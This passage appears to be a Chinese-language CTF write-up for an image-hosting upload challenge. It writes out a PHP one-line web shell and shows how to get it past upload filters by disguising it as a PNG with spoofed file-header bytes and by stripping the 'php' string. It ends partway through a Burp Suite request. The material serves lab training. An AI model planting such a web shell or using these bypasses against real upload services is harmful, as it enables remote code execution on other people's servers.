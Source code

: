 ​	详细使用方法可以查看[SQLmap使用教程图文教程（非常详细）从零基础入门到精通，看完这一篇就够了。-CSDN博客](https://blog.csdn.net/dzqxwzoe/article/details/132683722)，感觉写的不错。

# Imagehost

​	经典的图床题目，能用来检测的方法也没集中，首先这个系统是php构建的，那我们就来写一个🐎。

````php
// img.php

<?php 
@eval($_REQUEST['qwq']);
````

​	之后重命名为img.png上传，系统返回：`这不是图片，别想骗我😡`

​	之后就是文件头检测，常见文件文件头如下：

```shell
JPEG (图片文件)
文件头：FF D8 FF
文件尾：FF D9
PNG (图片文件)
文件头：89 50 4E 47 0D 0A 1A 0A
文件尾：49 45 4E 44 AE 42 60 82
GIF (图片文件)
文件头：47 49 46 38 37 61 或 47 49 46 38 39 61
文件尾：00 3B
PDF (文档文件)
文件头：25 50 44 46 2D
文件尾：25 25 45 4F 46
ZIP (压缩文件)
文件头：50 4B 03 04
文件尾：通常没有固定的文件尾标识，但文件结构以50 4B 05 06或50 4B 06 06结尾。
RAR (压缩文件)
文件头：52 61 72 21 1A 07 00
文件尾：没有固定的文件尾标识。
MP3 (音频文件)
文件头：通常以FF FB或FF F3开头。
文件尾：没有固定的文件尾标识。
AVI (视频文件)
文件头：52 49 46 46 (RIFF) 后跟 41 56 49 20 (AVI)
文件尾：没有固定的文件尾标识。
```

​	我们使用十六进制编辑器把文件头加上去，有一个vscode拓展Hex Editor可以编辑，还有Hexer也可以。

​	添加之后上传，系统输出：`php？扬了😋`，估计是检测php字段，那我们删了重新上传就好，系统输出：`上传成功，保存至tmp/img.png`。

​	`img.png`很显然无法调用，这时候我们可以使用Burp Suite抓包重放。

```http
POST /upload.php HTTP/1.1
Host: train2025.hitctf.cn:25808
Content-Length: 225
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://train2025.hitctf.cn:25808
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvYBkkrDgeQpJpsun
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://train2025.hitctf.cn:25808/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```